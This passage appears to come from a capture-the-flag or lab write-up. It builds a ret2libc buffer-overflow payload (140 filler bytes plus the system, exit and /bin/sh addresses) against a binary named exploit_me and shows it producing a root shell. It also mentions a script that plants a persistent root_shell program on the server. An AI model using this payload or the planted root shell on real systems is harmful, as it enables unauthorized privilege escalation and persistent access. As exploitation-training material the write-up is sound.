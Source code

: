 The address of the function exit is `0xb7e5ebe0`

We have all the informations, now build the payload

```
140 offset + system + JUNK = exit + /bin/sh


"A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"
```

Exploit!

```
$ ./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
# whoami
root
```

We are root! Script it now

In the script we also creating a root_shell program on the server. Better for have a real root shell
